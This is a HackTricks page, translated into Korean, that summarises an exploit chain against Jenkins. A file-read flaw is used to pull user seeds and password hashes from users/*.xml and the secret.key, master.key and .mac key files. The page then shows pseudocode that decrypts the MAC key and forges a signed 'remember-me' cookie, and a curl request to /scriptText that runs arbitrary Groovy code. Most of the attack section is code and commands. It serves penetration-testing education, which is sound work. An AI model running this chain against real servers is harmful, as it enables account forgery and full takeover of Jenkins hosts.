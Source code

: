 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

이 블로그 게시물에서는 Jenkins의 Local File Inclusion 취약점을 RCE로 변환하는 훌륭한 방법을 찾을 수 있습니다: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

이것은 임의의 쿠키를 악용하여 RCE를 얻는 게시물의 요약입니다. 제가 직접 요약을 작성할 시간이 생길 때까지 사용됩니다:

### 공격 전제 조건

* **기능 요구 사항:** "Remember me"가 활성화되어 있어야 합니다 (기본 설정).
* **접근 수준:** 공격자는 전체/읽기 권한이 필요합니다.
* **비밀 접근:** 주요 파일에서 이진 및 텍스트 콘텐츠를 읽을 수 있는 능력.

### 상세한 악용 과정

#### 1단계: 데이터 수집

**사용자 정보 검색**

* 각 사용자에 대한 `$JENKINS_HOME/users/*.xml`에서 사용자 구성 및 비밀을 접근하여 수집합니다:
* **사용자 이름**
* **사용자 시드**
* **타임스탬프**
* **비밀번호 해시**

**비밀 키 추출**

* 쿠키 서명에 사용되는 암호화 키를 추출합니다:
* **비밀 키:** `$JENKINS_HOME/secret.key`
* **마스터 키:** `$JENKINS_HOME/secrets/master.key`
* **MAC 키 파일:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### 2단계: 쿠키 위조

**토큰 준비**

*   **토큰 만료 시간 계산:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // 현재 시간에 1시간 추가
```
{% endcode %}
*   **토큰을 위한 데이터 연결:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC 키 복호화**

*   **MAC 키 파일 복호화:**

```javascript
key = toAes128Key(masterKey)  // 마스터 키를 AES128 키 형식으로 변환
decrypted = AES.decrypt(macFile, key)  // .mac 파일 복호화
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**서명 계산**

*   **HMAC SHA256 계산:**

```javascript
mac = HmacSHA256(token, macKey)  // 토큰과 MAC 키를 사용하여 HMAC 계산
tokenSignature = bytesToHexString(mac)  // MAC을 16진수 문자열로 변환
```

**쿠키 인코딩**

*   **최종 쿠키 생성:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // 쿠키 데이터를 Base64로 인코딩
```
{% endcode %}

#### 3단계: 코드 실행

**세션 인증**

* **CSRF 및 세션 토큰 가져오기:**
* `/crumbIssuer/api/json`에 요청을 보내 `Jenkins-Crumb`를 얻습니다.
* 응답에서 `JSESSIONID`를 캡처하여 remember-me 쿠키와 함께 사용합니다.

**명령 실행 요청**

*   **Groovy 스크립트로 POST 요청 보내기:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy 스크립트는 시스템 수준의 명령이나 Jenkins 환경 내의 다른 작업을 실행하는 데 사용할 수 있습니다.

제공된 curl 명령 예시는 임의의 코드를 안전하게 실행하기 위해 필요한 헤더와 쿠키를 사용하여 Jenkins에 요청을 보내는 방법을 보여줍니다.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
